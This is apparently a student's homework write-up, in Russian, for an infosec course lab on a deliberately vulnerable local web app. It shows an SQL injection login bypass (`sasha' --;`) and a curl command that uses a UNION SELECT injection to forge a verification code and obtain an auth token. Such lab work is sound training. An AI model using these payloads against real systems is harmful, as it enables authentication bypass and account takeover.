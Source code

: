 # Специалист по информационной безопасности: расширенный курс
## Модуль "Современная разработка ПО"
### Желобанов Егор SIB-48

# Домашнее задание к занятию «1.6. SQL и транзакции»

Подготовил файлы для развертывания системы:

* [docker-compose.yml](assets/docker-compose.yml)
* [docker-entrypoint-initdb.d/init.sql](assets/docker-entrypoint-initdb.d/init.sql)

И расположил их в каталоге `Work/SQL` в виртуальной машине Kali в соответствии с описанием:

![](assets/1_tree.jpg)

#### Задание 1. «Логин и пароль»

Развернул контейнер, и в браузере виртуальной машины перешел по адресу `http://localhost:8888/`, и увидел окно авторизации системы:

![](assets/2_login.jpg)

Зная, что в системе есть логин `sasha`, вводим логин `sasha' --;` и любой пароль, я ввел `123123`:

![](assets/3_login.jpg)

И попал на следующее окно:

![](assets/4_login.jpg)

#### Задание 2. «Код подтверждения»*

Следуя подсказке, составил запрос на второго пользователя Мария, который указан у нас в файле [init.sql](assets/docker-entrypoint-initdb.d/init.sql),
подставив логин `masha` и код подтверждения `1234`, получился вот такой запрос:

```bash
curl -v "http://localhost:8888/api/auth/verification" -H 'Content-Type:application/json' -d "{\"login\":\"masha' union select null, 'masha', '1234', null, null -- \", \"code\":\"1234\"}"
```

В результате выполнения этого запроса, был получен положительный ответ от сервера:

![](assets/5_token.jpg)

Полученный токен в результате выполнения этого задания:

`{"token":"a184bbdd609c59dc91e0bd59c49bca04dbad035aba8ba85e06a6097c3fe648d5e2194f7abf84b3b50871325f0c3040deb6faa7d3b4c67c60b0ad48caa8331c0e11d771e4f1d330266ecebc737dbd42742615c2da6bae2984ef3b9d5fcef8eec8f431a1c3e6032639e3257a4ef707eb2a5596d7d231215ab3198fa1d2bc923308"}`
